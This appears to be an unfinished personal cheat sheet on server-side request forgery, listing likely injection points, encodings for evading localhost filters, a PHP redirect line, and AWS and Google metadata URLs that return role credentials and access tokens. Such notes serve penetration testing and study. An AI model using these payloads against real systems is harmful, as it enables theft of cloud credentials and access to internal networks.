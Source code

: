 # SSRF

## WHERE

### File Upload	(SVGs, JPGs, XMLs and JSONs)
	
#### SVGs : 

- Proxies
- Admin Configuration
- Webhooks
- URLs embedded in files that are processed by the application
- Hidden API endpoints that accept URLs as input
- HTML tag injections

## BYPASS

### Whitelist
	
* Open redirect
* @ , # , / , . 
* Encoding ?

### Blacklist
	
* Encoding
	
	. Hex : 127.0.0.1 translates to 0x7f.0x0.0x0.0x1
	. Octal : 127.0.0.1 translates to 0177.0.0.01
	. DWord : 127.0.0.1 translates to 2130706433
	. URL Encoding : localhost translates to %6c%6f%63%61%6c%68%6f%73%74
	. Mixed : 127.0.0.1 translates to 0177.0.0.0x1

* Ip V6
* DNS 
* Redirect ( <?php header(“location: http://127.0.0.1"); ?> ) / TinyUrl 

## EXPLOIT

- localhost

- Collect instance metadata : EC2 ? Equivalent google ? 
	
#### AWS

	* http://169.254.169.254/latest/meta-data/ returns the list of available metadata that you can query.

	* http://169.254.169.254/latest/meta-data/local-hostname/ returns the internal hostname used by the host.

	* http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME returns the security credentials of that role.

	* http://169.254.169.254/latest/dynamic/instance-identity/document reveals the private IP address of the current instance.

	* http://169.254.169.254/latest/user-data/ returns user data on the current instance. 

#### GOOGLE

	* http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token returns the access token of the default account on the instance.

	* http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-key returns public SSH keys that can connect to other instances in this project.

### fingerprinting : 
	
* internally : port scanning, other services on internal ip ? 

	. Internal adress : https://en.wikipedia.org/wiki/Reserved_IP_addresses
	. 127.0.0.0/8
	. 192.168.0.0/16
	. 10.0.0.0/8

* externally : user agent in dns/http request

### Bypass access controls

### RCE ???

## LINKS

	- SSRF Bible : https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit#heading=h.kwcnj7jh5zyy

	- Vickie Li : https://medium.com/@vickieli/sitemap-xml-6ecc3b14b4f

	- Internal adress : https://en.wikipedia.org/wiki/Reserved_IP_addresses

	- Common ports : https://packetlife.net/media/library/23/common-ports.pdf

